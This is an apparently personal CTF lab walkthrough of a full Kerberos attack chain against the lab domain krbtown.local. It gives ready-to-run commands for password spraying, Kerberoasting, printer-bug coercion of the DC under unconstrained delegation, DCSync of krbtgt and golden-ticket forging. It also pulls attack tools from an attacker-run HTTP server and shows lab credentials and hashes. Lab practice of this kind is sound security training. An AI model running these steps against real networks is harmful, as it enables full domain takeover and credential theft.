 ```yaml
---
date: 2025-04-24
categories: [CTF, IML]
title: "IML - Kerberos: Ep.13 – Demonstrate your skills"
tags: ['hashcat', 'john the ripper', 'kerberos', 'mimikatz', 'powershell', 'privilege escalation', 'python', 'rce', 'windows']

description: "Kerberos Ep.13 – Demonstrate your skills - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.13 – Demonstrate your skills


![image1](../resources/eb9a0af945024067bf3743669956becf.png)

# ![image2](../resources/5fbcc1d087bc4a43ae0da894139f234d.png)

```bash
./kerbrute bruteuser -d krbtown.local --dc 10.102.11.232 /usr/share/wordlists/krbpasswords.txt s.villanelle

```

![image3](../resources/82229e4cd1ab46b191c60f29b82143d4.png)

- Got valid credentials


![image4](../resources/0852f5bdc6fb4d92bfd3eee703dc469b.png)

- Use credentials to rdp
```bash
xfreerdp /v:10.102.30.15 /u:s.villanelle /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Token: 8dae10


![image5](../resources/ed950f2a96b9467a920841bf851e36d2.png)

- Upload Rubeus to workstation-01

```bash
python3 -m http.server 8080

```

![image6](../resources/903a4b8eef6f40eeaa2eb24239e9302e.png)

```bash
curl http://10.102.30.234:8080/Rubeus.exe > Rubeus.exe

```

![image7](../resources/8acfa91590514a4c8a3c438b7b075882.png)

- Open admin PS - Run rubeus.exe
.\Rubeus.exe kerberoast /user:mssql_svc /outfile:hashes.kerberoast


![image8](../resources/9a3dc2dcdfc541a2a87082f889a2c5d7.png)


![image9](../resources/0da917ac1c294f5bbdb1e9fc2379ee82.png)

- Copy and save hash to Kali (hash.txt)

- Use john (no hashcat):
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=krb5tgs

- Password: **blink182!**

- RDP to wks-02:
```bash
xfreerdp /v:10.102.52.164 /u:mssql_svc /p:blink182! /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image10](../resources/378f60dbf30941bc8d466ee1fdfcad9c.png)

- Set up python server in Tools:
```bash
python -m http.server

```
- Use the native Powershell command to curl (this doesn't corrupt the file):
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PowerView-Dev.ps1','PowerView-Dev.ps1')

```
- Enumerating for unconstrained delegation:
```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```

![image11](../resources/92776ade960f4f968a9e5e71889c5e69.png)

- We are already on wks-02

- Set up python server and download Rubeus, MS-RPRN, PsExec64 and mimikatz:
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/Rubeus.exe','Rubeus.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/MS-RPRN.exe','C:\Users\mssql_svc\MS-RPRN.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PsExec64.exe','C:\Users\mssql_svc\PsExec64.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/mimikatz.exe','C:\Users\mssql_svc\mimikatz.exe')

```
- Open an elevated command prompt and monitor for TGT **(Open in CMD, not PS)**:
```bash
.\Rubeus.exe monitor /interval:1 /nowrap

```
- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:
```bash
.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```

![image12](../resources/fad254bf7daa4721b32200b4b2781661.png)

If no wrap wasn't used:
- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```python
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"\[\n\t\s\]\*", "", f))'
```
- Copy the output and paste into the command (on Windows):
```bash
[IO.File]::WriteAllBytes("C:\Users\mssql_svc\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```
(Change the directory to where Rubeus is)

Convert from Base64 and saves it in **DC.kirbi**:

- Load the ticket into memory:
```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```
or

```bash
.\Rubeus.exe ptt /ticket:\<base64\>

```
or with

```bash
.\mimikatz.exe

kerberos::ptt DC.kirbi

```

![image13](../resources/0fddd00966e6450cb4af1dd908a16818.png)

- Check with klist

![image14](../resources/141340df50624dac9a60844f53a91e3c.png)

- Run:
```bash
.\mimikatz.exe
lsadump::dcsync /domain:krbtown.local /user:krbtgt

```

![image15](../resources/22f73d9f3f8041a6be366e90a1d1ce23.png)

- Copy the NTLM hash and the SID:


![image16](../resources/792d1d115c864d9197ef14e2899a13db.png)


![image17](../resources/c01c6683d0ab4946a1e2ca140849eb58.png)

**\*\* The SID is the highlighted text above - Not including the last part (-502)  
That part is specific to that user account**

- Run mimikatz
- Create Kerberos Golden ticket with the information gathered above:
```bash
kerberos::golden /domain:krbtown.local /sid:S-1-5-21-839606329-3182976252-758991142 /krbtgt:9a60db81a985dd1b22b3d34fa598fe19 /user:Administrator

```
The **/user:** is a username we make up ourselves.

This can be anything but Administrator is less conspicuous


![image18](../resources/0fc9917b07324daf9090b6ffdd1a0071.png)


![image19](../resources/7ec819c264434e379b257c9b860180fa.png)

- Run .\mimikatz.exe again with the following command:
```bash
kerberos::ptt ticket.kirbi

```

![image20](../resources/291e0785ed02449c8b925c0a54227448.png)

- Check with klist

![image21](../resources/fe5cbc4a600244ff896d897f651af9e8.png)

- Now that we have a Golden Ticket in memory (TGT) for administrator on the DC, you can use PsExec to log in to the DC:

```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```
**\*\*Need to use the DNS name to force the use of Kerberos**


![image22](../resources/cd77966db48f440abd1687b5fd9a8c6c.png)